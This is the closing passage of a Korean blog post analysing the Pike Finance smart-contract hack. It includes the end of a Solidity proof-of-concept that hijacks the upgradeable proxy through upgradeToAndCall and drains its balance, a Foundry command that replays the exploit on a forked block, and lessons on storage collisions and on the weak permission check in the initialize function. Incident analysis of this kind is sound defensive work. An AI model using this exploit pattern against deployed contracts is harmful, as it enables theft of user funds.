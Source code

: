 ```solidity

        IPikeFinance(TARGET_CONTRACT).upgradeToAndCall(address(this), abi.encodeWithSignature("drainFunds(address)", address(this)));
    }

    function drainFunds(address recipient) external {
        payable(recipient).call{value: address(this).balance}("");
    }

    function proxiableUUID() external pure returns (bytes32) {
        return 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;
    }

    receive() external payable {}
}
```

아래 명령어로 테스트를 실행할 수 있습니다.  
```
forge test --fork-url https://eth.llamarpc.com --fork-block-number 19771058 --match-test testExploit -vvvv
```

![exploit](/assets/img/pikeFinance/image.png)



---

## 마무리
이번 피해는 storage collision과 initialize 함수의 허술한 설계가 결합되며 발생한 사고였습니다.<br>
이 사례를 통해 얻을 수 있는 교훈은 두 가지입니다.<br>
<br>
첫째, 프록시 패턴을 사용할 경우 업그레이드 전후의 storage layout 충돌 여부를 반드시 확인해야 한다는 점입니다.<br>
슬롯 위치 하나의 변화만으로도 기존 변수의 값이 왜곡되거나, 중요한 제어 흐름이 공격자에게 노출될 수 있기 때문입니다.<br>
이는 스마트 컨트랙트 업그레이드에서 가장 흔하게 발생하는 실수 중 하나이며, 충분한 사전 검토 없이는 치명적인 결과를 초래할 수 있습니다.<br>
<br>
둘째, initialize 함수의 권한 검증 로직은 더욱 엄격하게 설계될 필요가 있습니다.<br>
예를 들어 _isActive에 단순히 msg.sender를 저장하는 방식 대신, 사전에 정의된 화이트리스트 기반의 주소만 초기화할 수 있도록 제한하는 구조가 보안상 더 안전합니다.<br>
<br>
결국 이 사고는 코드 한 줄의 실수가 수십억 원의 피해로 이어질 수 있다는 사실을 명확히 보여주는 사례입니다.<br>
